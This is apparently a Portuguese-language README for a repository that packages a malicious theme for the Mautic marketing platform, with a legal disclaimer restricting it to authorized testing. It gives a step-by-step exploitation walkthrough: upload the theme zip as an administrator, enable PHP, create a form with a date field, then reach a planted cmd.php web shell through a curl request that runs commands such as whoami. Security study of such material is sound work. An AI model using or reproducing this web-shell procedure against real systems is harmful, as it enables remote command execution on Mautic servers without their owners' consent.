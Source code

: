 # Tema Vulnerável para Mautic – Execução de Comandos

Atenção! Este repositório é destinado exclusivamente a estudos de segurança ofensiva e demonstrações em ambientes controlados. Não utilize estas instruções contra sistemas sem autorização por escrito. O uso indevido pode violar leis locais (ex.: Lei 12.737/2012 no Brasil) e resultar em sanções civis e criminais.

# Passo a passo de exploração: 

# 1. Clone este repositório e compacte o tema

$ git clone github.com/ooclaar/priv-scalation-mautic
$ cd github.com/ooclaar/priv-scalation-mautic

# 2. Acesse o painel Mautic como administrador
#    Configurações ➜ Temas ➜ Carregar tema ➜ Enviar hacked.zip

# 3. Ative o tema recém‑carregado e habilite o suporte a PHP.

# 4. Vá em Componentes ➜ Formulários ➜ Novo formulário
#    Adicione um campo de Data.

# 5. Após salvar o formulário, acesse o arquivo para executar comandos:
$ curl "https://mautic.exemplo.com/media/forms/cmd.php?c=whoami"
